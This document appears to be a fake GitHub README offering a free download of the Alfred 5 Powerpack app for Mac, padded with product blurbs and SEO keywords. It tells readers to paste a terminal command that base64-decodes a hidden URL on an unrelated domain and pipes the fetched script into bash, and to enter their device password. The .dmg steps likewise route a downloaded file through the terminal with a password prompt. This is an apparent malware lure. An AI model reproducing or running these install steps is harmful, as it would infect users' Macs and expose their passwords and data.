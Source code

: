 # Alfred 5 Powerpack for Mac Download

![Alfred Logo](https://upload.wikimedia.org/wikipedia/en/a/a4/Alfred-logo.png)

> Alfred for macOS is an award-winning productivity application that boosts your efficiency with hotkeys, text expansion, clipboard history, file search, automation, and more. Whether you're a Mac power user or just getting started, Alfred lets you control your workflow like never before.

---

# 📥 Download Alfred for Mac

[![⬇️ Download Now](https://img.shields.io/badge/Alfred%20%205%20%20Powerpack-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/alfred)

# 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0801-1.gif](https://i.postimg.cc/13YxsdYG/0801-1.gif)](https://postimg.cc/DSspcxh0)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-2.gif](https://i.postimg.cc/4x1CqdpS/0723-2.gif)](https://postimg.cc/Bjtw1JYT)

---

# What is Alfred for Mac?

Alfred for Mac is a powerful productivity application designed to help users perform tasks faster and more efficiently using customizable hotkeys, keywords, text expansion, and a highly efficient search interface. It acts as an intelligent spotlight alternative that enables users to launch apps, search files, control system actions, and access web searches — all from a single command bar.

With Alfred, you can automate repetitive tasks, execute scripts, create complex workflows, and integrate third-party services using its modular workflow system. Whether you're a developer, writer, designer, or power user, Alfred adapts to your needs and dramatically reduces time spent on mundane tasks.

The app is known for its Powerpack — an optional upgrade that unlocks advanced features like Clipboard History, Snippets, iTunes & Music Mini Player, File Buffer, and system-wide workflow automation tools. Users can build custom automations using Alfred's visual workflow editor or download workflows created by the Alfred community.

Additionally, Alfred is optimized for macOS, including full support for Apple Silicon (M1, M2, M3), Monterey, Ventura, and Sonoma. It runs natively and efficiently without draining system resources, making it an essential tool for any Mac user aiming to improve their efficiency.

Whether you're searching the web, launching applications, browsing files, or chaining together complex tasks, Alfred for Mac serves as your intelligent digital assistant — quietly working in the background to supercharge your workflow. It's not just an app launcher; it's a full-scale productivity companion designed to grow with your needs.

---

## 🖼 Screenshots

### Alfred Workflow Canvas

![Alfred Workflows](https://www.alfredapp.com/media/pages/home-v5/workflow-canvas.png)

---

## 🔑 Features

- ⚡ **Fast file and app search**
- 🔐 **1Password integration**
- 🧠 **Clipboard history & snippets**
- ⚙️ **Custom workflows (with Alfred 5 Powerpack)**
- 📦 **Available via Setapp**
- 💻 **Optimized for Apple Silicon (M1, M2, M3)**
- 🔍 **System commands, calculator, web search, and more**

---

## 🔑 Keywords

alfred mac, alfred macbook, alfred osx, alfred app for mac, download alfred for mac, alfred 5 powerpack, alfred setapp, alfred 4 for mac, alfred 4 mac, alfred 5 for mac, alfred 5 mac, alfred m1 mac, alfred mac m1, setapp alfred, alfred productivity app, alfred mac discount, alfred for mac review
